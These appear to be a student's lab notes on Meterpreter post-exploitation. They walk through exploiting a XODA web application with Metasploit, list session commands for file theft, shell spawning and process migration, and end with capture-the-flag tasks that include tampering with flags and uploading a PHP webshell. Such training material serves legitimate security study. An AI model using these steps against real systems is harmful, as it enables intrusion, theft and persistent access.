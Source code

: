 

## Post explotation Fundamentals 

![[Pasted image 20230827202208.png]]

Meterpreter 
- The Meterpreter (metapinterpreter)payload is an advanced multi-functional payload that operates via DLL injection and is executed in memory on the target system, consequently making it difficult to detect 
	- Traditional antivirus tools primarily scan files on disk. Detecting malicious activity that only occurs in memory is more challenging. While modern security solutions are improving in this area, it's still a difficult task to reliably detect and mitigate threats that operate solely in memory.
- meterpreter is a staged payload 
- it communicates over a stager socket and provides an attacker with an interactive command interpreter on the target system that facilitates the execution of system commands, file system navigation, keylogging and much more 
- Meterpreter also allows us to load custom script and plugins dynamically 
- MSF provides us with various types of meterpreter payloads that can be used based on the target environment and the OS architecture


1) start `msfconsole` 
2) `setg rhosts ip `
3) `db_nmap -sS -sV -O ip` 
4) we identified a webserver so we will downloads the content of the website: 
	1) `curl` `http://ip `
5) we see the webapplication being zoda which is exploitable 
6) ` search XODA`
7) `use exploit/unix/webapp/xoda_file_upload` 
	1) `set targetui /` (/xoda/ is the default but we want the root of the webserver)

Now we have a meterpreter session. What commands are most interesting? 
- `sysinfo` (what operating system is running on target, kernel version)
- `getuid` (tell us what our permissions are)
- `help` (documentation for meterpreter)
- `ls` 
- `pwd` 
- `cd ..`
- `cat` (display content of files )
- `edit` 
- `cd "Secret files"`
- `download {filename}`
- `unzip {filename.zip}`
- get MDF hash of binary like /bin/bash: `checksum md5 /bin/bash` 
- command is used to retrieve the values of environment variables on the compromised target system: `getenv PATH` 
- command is used to retrieve the values of environment variables on the compromised target system: `getenv TERM`
- search for files: `search -d /usr/bin -f *backdoor*  `
	- - `-d /usr/bin`: This part of the command specifies the directory where the search will take place. In this case, it's set to `/usr/bin`, which is a common directory on Unix-like systems where executable files (programs) are stored. The `-d` flag is used to specify the directory to search in.
	-  `-f`: This flag indicates that we're searching for files (as opposed to directories).
        -  `*backdoor*`: This is a wildcard pattern. The asterisks (`*`) act as placeholders for any characters before and after "backdoor." This means it will match any filename that contains "backdoor" anywhere in the name
- search for specific file extension: `search -f *.jpg `
- if you want to pop a shell on target system: 
	- `shell` 
		- In windows: command prompt session  
		- In linux: terminal session 
- open a bash session: `/bin/bash -i `
- list process tree (processes currently running on the system): `ps`  
- migrate to another process: `migrate` `processid or name process` e.g. 
  `migrate 432`
- execute command via meterpreter: `execute -f ifconfig` 


Sessions: 
- put session in background: `background` or (control + Z)
- kill session: `exit` 
- list sessions: `sessions` 
- help menu for sessions: `sessions -h` 


-----

- Check the present working directory on remote (exploited) machine.
- List the files present in present working directory of the remote machine.
- Check the present working directory on local (attacker) machine.
- List the files present in present working directory of the local machine.
- Get the flag value present in /app/flag1 file.
- Change the flag value present in /app/flag1, so that no one else can get the right flag.
- Change the present working directory to a suspiciously named directory in /app and read the flag from a hidden file present in that directory.
- Get the flag5.zip to local machine, open it using password 56784. The information given in the extracted file will give clue about the location of the another flag.
- Delete the .zip file from the directory.
- Print checksum of file mentioned in the extracted file (Refer to Q8).
- Check the PATH environment variable on the remote machine.
- There is a file with string “ckdo” in its name in one of the places included in PATH variable. Print the flag hidden in that file.
- Change to tools directory on the local machine.
- Upload a PHP webshell to app directory of the remote machine. 